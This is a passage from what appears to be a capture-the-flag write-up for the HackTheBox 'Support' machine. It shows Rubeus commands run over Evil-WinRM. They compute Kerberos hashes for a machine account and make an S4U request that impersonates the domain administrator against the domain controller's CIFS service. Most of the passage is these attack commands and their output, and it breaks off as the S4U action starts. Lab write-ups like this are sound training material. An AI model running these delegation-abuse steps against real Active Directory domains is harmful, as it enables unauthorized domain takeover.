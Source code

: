 ```
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe hash /password:123456 /user:GR4Y$ /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : 123456
[*] Input username             : GR4Y$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostgr4y.support.htb
[*]       rc4_hmac             : 32ED87BDB5FDC5E9CBA88547376818D4
[*]       aes128_cts_hmac_sha1 : 95C59C0B079DFB8C5CD3A9266495ACF7
[*]       aes256_cts_hmac_sha1 : E6DDFF1AA0C2F678155BDB250EDBDC3440840065F8D5A5DA0D12B0B6F08D7151
[*]       des_cbc_md5          : 409719380BA7D937


```

```
./rubeus.exe s4u /user:GR4Y$ /aes256:E6DDFF1AA0C2F678155BDB250EDBDC3440840065F8D5A5DA0D12B0B6F08D7151 /aes128:95C59C0B079DFB8C5CD3A9266495ACF7 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/DC.support.htb /domain:support.htb /ptt
```

![](assets/Support_assets/Pasted%20image%2020231116184546.png)
```
*Evil-WinRM* PS C:\Users\support\Documents> ./rubeus.exe s4u /user:GR4Y$ /aes256:E6DDFF1AA0C2F678155BDB250EDBDC3440840065F8D5A5DA0D12B0B6F08D7151 /aes128:95C59C0B079DFB8C5CD3A9266495ACF7 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/DC.support.htb /domain:support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

```